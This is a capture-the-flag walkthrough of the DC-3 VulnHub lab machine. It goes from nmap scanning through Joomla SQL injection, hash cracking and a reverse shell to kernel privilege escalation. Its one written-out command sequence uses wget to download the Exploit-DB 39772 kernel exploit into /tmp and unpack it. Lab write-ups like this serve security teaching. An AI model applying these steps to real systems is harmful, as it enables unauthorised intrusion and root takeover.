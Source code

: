# DC-3 VulnHub Walkthrough

## Nmap Scan

Starting with our **nmap** scan, we found only HTTP open, and after some investigation, we discovered it was running **Joomla! CMS**. Interesting!

![Nmap Scan - Joomla CMS](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img1.png)

## Directory Enumeration

After some directory enumeration, I found the **Joomla! version** in the `README.txt` file. Sometimes this file contains valuable information!

![README.txt](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img2.png)

## Exploiting Joomla!

Next, I searched for known exploits or vulnerabilities for this version of Joomla! I found an **SQL injection** vulnerability. I used a Python script to exploit it (you could also use **sqlmap** for this), and I was able to extract the **admin hash**. I cracked the hash using **John the Ripper**.

![Admin Hash](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img3.png)

## Joomla! Admin Access & Reverse Shell

After cracking the admin hash, I logged into Joomla! and searched for entry points to upload a **reverse shell**. I successfully injected my reverse shell and gained a reverse shell on the system.

![Joomla Admin](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img4.png)
![Reverse Shell Setup](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img5.png)
![Getting Reverse Shell](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img6.png)
![Reverse Shell Obtained](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img7.png)

## Privilege Escalation

Initially, there was only one flag in the root directory of the website. I started my enumeration using **LinPEAS** and found that the system was running a vulnerable kernel version.

![LinPEAS Output - Vulnerable Kernel](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img8.png)

I researched the kernel vulnerability and found an exploit in **Exploit-DB**. The following commands were used to exploit the kernel and gain root privileges.

### Commands Used:
1. `cd /tmp`
2. `wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip`
3. `unzip 39772.zip`
4. `cd 39772`
5. `tar -xf exploit.tar`
6. `cd ebpf_mapfd_doubleput_exploit`
7. `ls`

After running the exploit, we successfully obtained a root shell.

![Root Shell Obtained](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img9.png)

## Conclusion

This challenge was a great mix of web exploitation and privilege escalation. We leveraged known vulnerabilities in Joomla! and the Linux kernel to gain root access. 

![Root Shell - Final Flag](https://github.com/sagar-sehrawat/VulnHub-Machine-Solutions/blob/main/DC-3/img/img10.png)

- **Author**: Sagar Sehrawat  


